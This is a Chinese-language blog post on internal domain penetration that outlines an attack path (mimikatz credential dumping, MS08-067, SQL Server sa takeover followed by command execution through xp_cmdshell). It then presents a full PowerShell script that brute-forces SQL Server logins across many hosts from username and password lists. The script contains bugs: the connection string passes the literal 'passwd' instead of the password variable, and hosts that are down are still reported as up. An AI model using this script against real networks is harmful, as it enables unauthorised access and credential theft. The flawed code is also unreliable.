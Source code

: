 ```yaml
---
title: 内网域渗透-sqlserver爆破
categories: 安全研究
tages: 安全研究
toc: true
toc_label: 目录
toc_icon: "cog"
---
```


> 内网渗透中寻找薄弱应用系统非常有用，在企业中会有很多人因为一些原因在计算机中开启一些应用，例如sqlserver，而这些应用系统由于缺乏管理往往都存在弱口令，本文介绍了使用powershell脚本破解sqlserver的方法。

## 1 内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 2 通过弱口令破解sqlserver登录口令

由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。作者写了一个powershell脚本能够对这个列表进行暴力破解。

脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
    $pos = $server.Indexof(".")
    $serverName = $server.Substring(0,$pos)
    if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
        Write-Host "[+] Up $server"
        $serverList += $server
    } else {
        Write-Host "[+] Up $server"
    }
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
    Foreach ($passwd in $passwdFile) {
        Foreach ($server in $serverList) {
            $con = New-Object System.Data.SqlClient.SqlConnection
            $con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
            Try {
                $con.Open()
                Write-Host "[+] Success: $server; $user; $passwd."
                $result += "$server; $user; $passwd"
            }
            Catch {
                Write-Host "[+] Failed: $server; $user; $passwd."
            }
        }
    }
}

$result | out-file "result.txt"
{% endhighlight %}

脚本中server.txt为sqlserver服务器列表，user.txt为用户名列表，passwd为password列表。执行结果保存在脚本目录下的result.txt文件中。

[1]: http://drops.wooyun.org/pentesting/2125